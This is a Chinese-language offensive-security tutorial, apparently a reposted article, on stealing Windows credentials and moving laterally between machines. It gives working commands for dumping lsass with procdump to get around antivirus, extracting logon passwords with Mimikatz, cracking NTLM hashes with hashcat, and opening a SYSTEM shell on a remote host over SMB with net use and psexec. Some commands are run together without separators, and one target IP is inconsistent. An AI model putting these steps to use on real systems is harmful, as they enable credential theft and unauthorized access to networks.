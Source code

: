 案例1-Procdump+Mimikatz配合获取

  procdump是Windows官方的工具

如果上传Minmiktz上传后被杀,可以使用Procdump+Mimikatz这个方法

运行procdump在当前目录下生成lsass.dmp文件

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdUicoaaESTTrkL7wic1rKjk73YnXH2BG5w733TNJmtN0zsHQqatcnj1IYg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

然后再在mimi上使用命令还原出来密码

在目标主机上用proc生成文件,然后再在本地上用Mim还原出密码



mimikatz上执行:

- 
- 

```
sekurlas::minidump lsass.dmpsekurlas::logonPasswords full
```



Hashcat破解获取Windows NTML Hash

- 

```
hashcat -a 0 -m 1000 file --force
```



案例2-域横向移动SMB服务利用-psexec,smbexec(官方自带)

利用SMB服务可以通过明文或hash传递来远程执行,条件445服务端口开放。



\#psexec第一种:先有ipc链接,psexec需要明文或hash传递

- 
- 

```
net use \\192.168.3.32\ipc$ "admin!@#45" /user:administratorpsexec \\102.168.3.32 -s cmd #需要先有ipc链接 -s以system权限运行
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdUWDxXOVGJ3cZ05gyVIibXEDBlLkTYtgOvkiaRDYicf3eJUPJbzkemaVgAQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



\#psexec第二种:不用建立IPC直接提供明文账户密码

  官方Pstools无法采用hash连接

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJicum920YfaOvlF4gruwmGdUn8xiaVQxF5O9deZvkLqseFlF0eJVxqQWibsVR5n1NLClUr56WxxFKpHA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

在官网下载pstools,上传至目标主机

